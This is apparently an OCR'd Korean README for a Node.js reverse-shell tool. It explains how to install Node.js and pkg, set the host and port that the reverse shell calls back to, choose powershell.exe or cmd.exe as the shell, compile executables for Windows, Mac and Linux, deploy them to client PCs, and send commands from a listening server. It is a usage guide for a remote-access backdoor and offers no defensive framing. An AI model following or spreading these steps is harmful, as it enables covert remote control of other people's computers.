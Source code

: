 ★x1 필수 설치파일
1) Node.js
    1. (windows) https://nodejs.org/ko/download/
    2. (MacOSX) brew install node
    3. (Linux) yum install node
2) PKG //에이전트 파일 생성
    1. npm install pkg --g


★x2 코드 수정(result.js)
1) 리버스쉘을 연결할 서버 호스트(HOST_Address, HOST_PORT) 등록
const HOST_Address = [연결할 서버의 주소 입력]
const HOST_PORT = ["연결할 서버의 포트 입력"]

2) 리버스쉘 연결할 Command(COMMAND) 등록
const COMMAND  = "powershell.exe", "cmd.exe"

★x3 에이전트 파일 생성(With PKG)
1) compile.bat 실행
2) results 폴더 내 에이전트 파일 확인(windows, mac, linux)
3) 에이전트 파일 Client PC 배포

★x4 Server 측 포트 리스닝
1) node server.js
2) 대기

★x5 Client PC 측 에이전트 파일 실행
1) (windows) results_win.exe 파일 클릭
2) Connected 인 경우 연결성공

★x6 Server 
1) Open 된 Console 에 전달할 명령어를 삽입
dir, netstat, powershell.exe, echo [input text] [path]...



